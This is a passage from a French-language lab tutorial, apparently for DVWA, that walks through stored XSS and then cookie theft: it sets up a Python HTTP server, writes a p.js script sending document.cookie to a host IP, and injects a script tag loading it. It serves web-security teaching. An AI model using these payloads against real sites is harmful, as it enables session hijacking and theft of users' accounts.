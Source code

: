 1. Aller dans **XSS (Stored)**
2. Tester d'abord l'exécution simple :
```html
<script>alert('XSS Stored')</script>
```
3. Observer que le script s'exécute à chaque rechargement de la page

---

## 4. XSS Stored : Exfiltration de cookies

### Préparation du serveur d'exfiltration

Sur votre machine hôte, créer un serveur HTTP simple pour capturer les cookies :

```bash
# Se placer dans un répertoire de travail
cd ~/ProjetsGit/owasp-labs-juiceshop/dvwa

# Lancer un serveur HTTP Python sur le port 9000
python3 -m http.server 9000
```

Ce serveur affichera toutes les requêtes HTTP reçues dans le terminal.

### Créer le script d'exfiltration

Créer le fichier `p.js` qui exfiltre le cookie :

```bash
cat > p.js <<'JS'
new Image().src='http://10.20.204.87:9000/?c='+encodeURIComponent(document.cookie);
JS
```

Remplacer `10.20.204.87` par l'adresse IP de votre machine hôte.

```bash
ipconfig getifaddr en0
```

Vérifier que le script est accessible :
```bash
curl -I http://localhost:9000/p.js
# Devrait retourner : HTTP/1.0 200 OK
```

### Injecter le payload dans DVWA

1. Aller dans **XSS (Stored)**
2. Dans le champ **Message**, saisir ce payload (moins de 50 caractères) :
```html
<script src=//10.20.204.87:9000/p.js></script>
```
3. Soumettre le formulaire
4. Recharger la page
